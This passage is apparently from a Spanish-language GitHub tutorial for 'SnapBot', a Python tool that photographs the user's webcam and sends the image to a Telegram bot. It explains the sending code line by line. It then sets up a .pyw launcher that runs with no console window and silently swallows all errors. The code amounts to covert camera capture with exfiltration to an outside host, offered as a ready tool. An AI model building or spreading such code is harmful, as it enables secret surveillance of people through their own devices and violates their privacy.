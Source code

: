         respuesta = requests.post(url, data=datos, files=archivos))
    ```
    - **archivos = {'photo': ('webcam.jpg', buffer.getvalue())}:** Prepara la imagen para enviar. 'photo' es el nombre del campo esperado por Telegram. 'webcam.jpg' es el nombre del archivo, y ``buffer.getvalue()`` obtiene los datos de la imagen.

    - **datos = {'chat_id': CHAT_ID}:** Especifica el identificador del chat ``(CHAT_ID)`` al que se enviará la imagen.
    
    - **url = f'https://api.telegram.org/bot{TOKEN}/sendPhoto':** Crea la ``URL`` para enviar la foto usando el token del bot ``(TOKEN).``
<br>

  - ### **6- Verificación del envío:**
    ```python  
        if respuesta.status_code == 200:
            print("Foto de la webcam enviada a Telegram")
        else:
            print("Error al enviar la foto a Telegram.")
    ```

    - **if respuesta.status_code == 200:** Verifica si la solicitud fue exitosa. El código de estado 200 indica que la imagen se envió correctamente.

    - **print("Foto de la webcam enviada a Telegram"):** Muestra un mensaje de éxito si la solicitud fue exitosa.

    - **else:** Si el código de estado no es 200, indica que hubo un error.

    - **print("Error al enviar la foto a Telegram."):** Muestra un mensaje de error si la solicitud falló.
<br>

 ¡Perfecto! Una vez finalizada está parte, vamos a configurar el script que ejecutará todo el proceso.

### **8. Configuración en SnapBot.py:** ##

  **Descripción:**
  Este es el script que ejecuta el programa. Su extensión ``.pyw`` sirve para qué se ejecutará sin abrir una ventana de consola en Windows.
  <br>

  Ahora, configuraremos el archivo **SnapBot.pyw** para gestionar la captura de imágenes desde la cámara web.

  ```python 
    import webcam 

    def main():
        try:
            webcam.Captur_webcam() 
        except Exception as e:
            pass
    if __name__ == "__main__":
        main()
  ```
